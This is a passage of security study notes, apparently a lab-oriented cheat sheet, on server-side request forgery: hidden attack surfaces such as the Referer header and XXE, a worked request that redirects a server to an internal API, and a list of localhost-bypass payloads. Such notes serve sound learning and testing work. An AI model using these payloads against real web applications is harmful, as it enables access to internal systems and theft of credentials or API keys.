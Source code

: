 Another avenue is to induce the app to connect to a system under the attacker's control, and return malicious responses. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve RCE within the app infrastructure.

EXAMPLE: **Referer header** when product is loaded / Goal: use this to cause HTTP on Burp Collaborator.

## Finding hidden attack surface for SSRF vulnerabilities

{% code overflow="wrap" fullWidth="true" %}
```sh
# Partial URLs in requests
Sometimes, an application places only a hostname or part of a URL path into request parameters.
However, exploitability as full SSRF might be limited because you do not control the entire URL that gets requested. 

# URLs within data formats
Some apps transmit data in formats that allows the inclusion of URLs that might get requested by the data parser.
Example: When apps accept XML and parses it, it might be vulnerable to XXE. It might also be vulnerable to SSRF via XXE.

# SSRF via the Referer header
Some apps use server-side analytics software to tracks visitors and visit 3rd-party URLs that appear in the Referer header.
As a result, the Referer header is often a useful attack surface for SSRF vulnerabilities. 
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```bash
1 Hacker requests http://website.thm/stock?server=api.website.thm/api/user&x=&id=12
2 Website reuqrests http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123
#  Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string.
The attacker can request one of their servers he/she controls to capture request headers and maybe auth credentials or API keys
# Check how the parameter is reflected on the request URL
```
{% endcode %}

## SSRF Payloads

{% hint style="info" %}
Another option is to manipulate special IP addresses that we can find on the web/source code (like 192.168.x.x or 10.x.x.x for IPv4) or domain names (e.g., internal-database.hrms.thm). We could use then to access internal resources such as IP/admin.php
{% endhint %}

{% code overflow="wrap" fullWidth="false" %}
```bash
http://127.0.0.1:3306
127.0.0.1
0
0.0.0.0
0000
127.1
127.*.*.*
2130706433
017700000001
127.0.0.1.nip.io.
http://[::]:3306
http://:::3306
0x7f000001

```